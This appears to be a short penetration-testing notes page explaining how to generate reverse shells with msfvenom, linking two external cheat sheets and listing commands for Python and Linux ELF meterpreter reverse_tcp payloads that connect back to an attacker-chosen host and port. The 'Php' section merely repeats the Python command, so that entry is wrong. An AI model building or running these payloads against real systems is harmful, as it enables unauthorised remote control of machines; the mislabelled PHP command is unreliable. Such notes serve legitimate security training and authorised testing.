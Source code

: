 # Creating reverse-shells


In the chapter Basics I linked to some reverse shells. Another way to create reverse shells is by using msfvenom.

Here is a good list for creating shells with msfvenom. 
http://netsec.ws/?p=331
https://jivoi.github.io/2015/07/01/pentest-tips-and-tricks/

## Python

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```

## Php

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```

## Linux elf

This one has worked great for me.
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```